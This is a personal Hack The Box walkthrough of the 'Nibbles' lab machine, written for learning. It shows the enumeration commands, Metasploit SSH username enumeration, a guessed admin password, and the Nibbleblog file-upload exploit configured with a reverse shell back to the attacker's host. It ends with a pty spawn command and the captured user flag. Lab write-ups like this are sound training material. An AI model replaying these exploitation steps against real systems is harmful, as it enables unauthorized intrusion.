


## Intro

I have to say that IT sec is not my strong. That's the reason I wanted to approach this matter a few months ago. I have been doing some Hack The Box modules and then, I felt capable to face some of the easiest machines in the platform. 
I manage to do through some of them with not too many complications but I had to stop because of other projects that required my time. 

I'll be uploading here the few walkthroughs I documented but I will continue with new machines soon.

This walkthrougs are a complete process of the steps that I took to reach the flags. Some of them are wrong until I found the right path. I like to have everything documented to learn from my mistakes.

---


## First network enumartion

First **ping** the target to check its reachable.

```
-[~]$ ping 10.10.10.75
PING 10.10.10.75 (10.10.10.75) 56(84) bytes of data.
64 bytes from 10.10.10.75: icmp_seq=1 ttl=63 time=48.3 ms
64 bytes from 10.10.10.75: icmp_seq=2 ttl=63 time=47.2 ms
64 bytes from 10.10.10.75: icmp_seq=3 ttl=63 time=48.6 ms
64 bytes from 10.10.10.75: icmp_seq=4 ttl=63 time=46.2 ms
```


### Scan with nmap

Command used:
```
nmap -sC -sV -p- 10.10.10.75
```

Result:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-18 22:17 CEST
Nmap scan report for 10.10.10.75
Host is up (0.063s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.60 seconds
```

- We can see its using ssh (port 22)
- It has an apache server (v 2.4.18) runnin (port 80)


### Directory enumeration

Command used:
```
gobuster dir -u 10.10.10.75 -w /usr/share/dirb/wordlists/common.txt
```

Result:
```
/.hta                 (Status: 403) [Size: 290]
/.htpasswd            (Status: 403) [Size: 295]
/.htaccess            (Status: 403) [Size: 295]
/index.html           (Status: 200) [Size: 93] 
/server-status        (Status: 403) [Size: 299]
```

- The directory enumeration showed nothing relevant. 


### Subdomain enumeration

I tried a subdomain enumeration with the following command: 

```
gobuster dns -d 10.10.10.75 -w /usr/share/SecLists/Discovery/DNS/namelist.txt
```

It was taking too much time so I deciede to try an exploitation with the info I had at that moment. You can see it in the **first exploitation try** section.


## First exploitation try

I tried this exploitation with the info I gathered with the **first network enumeration**.

### Exploit for OpenSSH 7.2p2**

With a quick research I found the next exploit:
- OpenSSH 7.2p2 - Username Enumeration -> https://www.exploit-db.com/exploits/40136

So with the name I try to find. Easy to find with "searchsploit"

```
-[~]$ searchsploit OpenSSH 7.2p2 Username Enumeration
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
OpenSSH 2.3 < 7.7 - Username Enumeration                                                                                                                    | linux/remote/45233.py
OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)                                                                                                              | linux/remote/45210.py
OpenSSH 7.2p2 - Username Enumeration                                                                                                                        | linux/remote/40136.py
OpenSSHd 7.2p2 - Username Enumeration    
```

This is the only option I find in **msfconsole**:

```
auxiliary/scanner/ssh/ssh_enumusers                                 normal  No     SSH Username Enumeration
```

I configured it against the target to see if it's the same one. Need to set up the option **RHOSTS** of and the **USER_FILE** with a common top user names file and then run the script with the following output: 

```
[msf](Jobs:0 Agents:0) auxiliary(scanner/ssh/ssh_enumusers) >> set RHOSTS 10.10.10.75
RHOSTS => 10.10.10.75
[msf](Jobs:0 Agents:0) auxiliary(scanner/ssh/ssh_enumusers) >> set USER_FILE /home/jasim/SecLists/Usernames/top-usernames-shortlist.txt
USER_FILE => /home/jasim/SecLists/Usernames/top-usernames-shortlist.txt
[msf](Jobs:0 Agents:0) auxiliary(scanner/ssh/ssh_enumusers) >> exploit

[*] 10.10.10.75:22 - SSH - Using malformed packet technique
[*] 10.10.10.75:22 - SSH - Starting scan
[+] 10.10.10.75:22 - SSH - User 'root' found
[+] 10.10.10.75:22 - SSH - User 'mysql' found
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

The exploit worked well and gave me some information. As we can see there are two names found for ssh:

- root -> require password
- mysql -> require password

It's a good info but I decided to continue with the network enumeration to see If I can gather some more useful information.


## Second network enumeration

Navigating to the adress of the machine we can see a website with just a hello world message but if we inspect the code we can see an interesting comment.




### Scanning subdirectories

Navigating to the new subdirectory we can see a blog website. So I try to enumerate again this new site.

Command: 
```
gobuster dir -u 10.10.10.75/nibbleblog -w /usr/share/dirb/wordlists/common.txt
```

Result:
```
/.hta                 (Status: 403) [Size: 301]
/.htpasswd            (Status: 403) [Size: 306]
/admin                (Status: 301) [Size: 321] [--> http://10.10.10.75/nibbleblog/admin/]
/admin.php            (Status: 200) [Size: 1401]                                          
/.htaccess            (Status: 403) [Size: 306]                                           
/content              (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/content/]
/index.php            (Status: 200) [Size: 2987]                                            
/languages            (Status: 301) [Size: 325] [--> http://10.10.10.75/nibbleblog/languages/]
/plugins              (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/plugins/]  
/README               (Status: 200) [Size: 4628]                                              
/themes               (Status: 301) [Size: 322] [--> http://10.10.10.75/nibbleblog/themes/]   

```

Unlike the other time we can see many interesting files so I start check them out.

- README -> Info about nibbleblog. Version **4.0.3**
- admin.php -> Log in for admins

Trying to access to another subdirectory with a 301 status code I discover that I can access to the file system so I access to **/admin** and start checking the files in the server:



Info obtained:

- nibbleblog/content/private/config.xml -> an email **admin@nibbles.com**
- /nibbleblog/content/private/users.xml -> a username **admin**

With the username I try to login in the **admin.php** page and after some random tries I manage to enter with the password **nibbles**

With this info I try another exploitation -> [[Second exploitation try]]


## Second exploitation try

Looking for an exploit for nibbleblog I found this one with **msfconsole**:

```
exploit/multi/http/nibbleblog_file_upload
```

So I start configuring it. It must have the **RHOST**, **USERNAME** and **PASSWORD** options set. As I have this info I set them.

```
[msf](Jobs:0 Agents:0) exploit(multi/http/nibbleblog_file_upload) >> set RHOSTS 10.10.10.75
RHOSTS => 10.10.10.75
[msf](Jobs:0 Agents:0) exploit(multi/http/nibbleblog_file_upload) >> set LHOST 10.10.16.3
LHOST => 10.10.16.3
[msf](Jobs:0 Agents:0) exploit(multi/http/nibbleblog_file_upload) >> set USERNAME admin
USERNAME => admin
[msf](Jobs:0 Agents:0) exploit(multi/http/nibbleblog_file_upload) >> set PASSWORD nibbles
PASSWORD => nibbles

```

Need to change the **TARGETURI** option too because the default one is not correct:

```
[msf](Jobs:0 Agents:0) exploit(multi/http/nibbleblog_file_upload) >> set TARGETURI /nibbleblog
TARGETURI => /nibbleblog
[msf](Jobs:0 Agents:0) exploit(multi/http/nibbleblog_file_upload) >> check
[*] 10.10.10.75:80 - The target appears to be vulnerable.
```

I also change the payload to get a reverse shell to the target.

```
[msf](Jobs:0 Agents:0) exploit(multi/http/nibbleblog_file_upload) >> set payload generic/shell_reverse_tcp 
payload => generic/shell_reverse_tcp
```

If we run the script we will have access to the targe through the rever shell. First, this is to get a tty terminal so let's use the next command for it:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Now we can navigate in the system to the user folder and get the flag:

```
nibbler@Nibbles:/home/nibbler$ ls
ls
personal.zip  user.txt
nibbler@Nibbles:/home/nibbler$ cat user.txt
cat user.txt
bff9c2b0ddccc2151f6cd15ca4055158
```

---

